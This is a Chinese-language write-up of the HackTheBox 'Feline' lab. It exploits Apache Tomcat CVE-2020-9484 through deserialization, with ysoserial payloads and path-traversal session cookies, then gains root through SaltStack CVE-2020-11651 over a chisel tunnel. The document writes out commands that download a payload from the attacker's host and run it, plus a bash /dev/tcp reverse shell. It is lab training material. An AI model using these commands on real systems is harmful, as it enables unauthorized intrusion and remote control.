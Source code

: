 # 20210204 Hackthebox Feline

![image-20210204164733180](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204164733180.png)



## 0X01渗透

![image-20210204165347936](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204165347936.png)

-sC： 等价于–script=default，使用默认类别的脚本进行扫描 可更换其他类别

-sV  打开版本探测

-A同时打开操作系统探测和版本探测。

检测到开放22和8080端口

8080 ApacheTomcat 9.0.27

访问8080，virusBucket 发现上传点

![image-20210204165516800](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204165516800.png)

bp抓包 上传点/upload.jsp 更改上传文件名后报错，显示上传目录名

![image-20210204165601035](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204165601035.png)

搜索apache tomcat 9.0.27漏洞

**CVE-2020-9484** 

![image-20210204165819590](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204165819590.png)

https://www.cybersecurity-help.cz/vdb/SB2020052124

https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

![image-20210204170307853](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204170307853.png)

首先创建反弹shell的payload 

![image-20210204170601645](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204170601645.png)



之后创建序列化session文件（使用curl下载payload）和另外一个序列化session文件(执行payload)

从https://github.com/frohoff/ysoserial

![image-20210204170737690](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204170737690.png)

下载ysoserial反序列化工具

java -jar yso... 查看用法

![image-20210204170851836](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204170851836.png)

java -jar ysoserial-master-d367e379d9-1.jar CommonsCollections2 'curl http://10.10.15.64/reverse.sh -o /tmp/reverse.sh' >downloadpayload.sh    （用来下载）

java -jar ysoserial-master-d367e379d9-1.jar CommonsCollections2 'bash /tmp/reverse.sh' >executepayload.sh (用来执行)

![image-20210204171546222](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204171546222.png)

创建一个curlcommands.sh文件 执行带有cookie和恶意代码的curl指令

文件内容

curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/downloadpayload' -F 'image=@downloadpayload.session'
sleep 1
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/executepayload' -F 'image=@executepayload.session'

![image-20210204171708812](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204171708812.png)

python 开启http服务，nc监听   bash执行curlcommand脚本

![image-20210204172143924](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204172143924.png)

拿到tomcat权限

![image-20210204172309822](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204172309822.png)

![image-20210204172505614](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204172505614.png)

netstat -ntulp 发现开放4505，4506端口

![image-20210204172619272](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204172619272.png)

搜索发现为saltstack应用

继续搜索saltstack漏洞

 CVE-2020-11651 查找poc

![image-20210204172745247](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204172745247.png)

https://github.com/jasperla/CVE-2020-11651-poc

（exploit.py 需要salt模块，需要pip3下载）

python3 exploit.py 发现作用在127.0.0.1:4505上，直接上传利用失败(module not found on the target system)，因此使用chisel建立tcp tunnel(use reverse portforwarding on prot 4506 to run exploit locally)

https://github.com/jpillora/chisel

依然通过python 开启http，目标端tomcat shell 执行curl下载

![image-20210204173634802](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204173634802.png)

chmod 加执行权限

客户端服务端分别启动，

![image-20210204173945157](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204173945157.png)

此时再次执行CVE-2020-11651/exploit.py 

![image-20210204174128307](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204174128307.png)

python3 exploit.py --help 查询指令 ![image-20210204174222116](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204174222116.png)



使用--exec参数执行反弹shell 成功弹回root权限

python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.15.68/7878 0>&1"'

![image-20210204174549490](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204174549490.png)



通过cat .bash_history，发现

curl -s --unix-socket /var/run/docker.sock http://localhost/images/json

![image-20210204180124213](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20210204180124213.png)

后续利用docker.sock漏洞暂时未触及

https://www.youtube.com/watch?v=2fn65MrXJ8o&t=313s

https://www.youtube.com/channel/UCh35oGf3_djXJbJVZ1KJ40g